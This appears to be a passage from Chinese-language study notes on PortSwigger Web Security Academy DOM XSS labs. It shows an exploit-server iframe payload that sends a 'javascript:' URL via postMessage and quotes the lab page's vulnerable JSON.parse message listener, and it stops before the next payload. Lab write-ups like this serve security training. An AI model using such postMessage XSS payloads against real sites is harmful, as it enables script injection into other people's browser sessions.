 在 exploit-server 構造

```html
<iframe
  src="https://0a2700bc049ab02982e429c8009c0064.web-security-academy.net/"
  onload="this.contentWindow.postMessage('javascript:print();const a = \'https://example.com\';','*')"
></iframe>
```

## Lab: DOM XSS using web messages and `JSON.parse`

| Dimension | Description                                                                                                                     |
| --------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/dom-based/controlling-the-web-message-source#origin-verification                           |
| Lab       | https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse |

觀察首頁有以下 js

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var iframe = document.createElement("iframe"),
        ACMEplayer = { element: iframe },
        d;
      document.body.appendChild(iframe);
      try {
        d = JSON.parse(e.data);
      } catch (e) {
        return;
      }
      switch (d.type) {
        case "page-load":
          ACMEplayer.element.scrollIntoView();
          break;
        case "load-channel":
          ACMEplayer.element.src = d.url;
          break;
        case "player-height-changed":
          ACMEplayer.element.style.width = d.width + "px";
          ACMEplayer.element.style.height = d.height + "px";
          break;
      }
    },
    false,
  );
</script>
```

在 exploit-server 構造
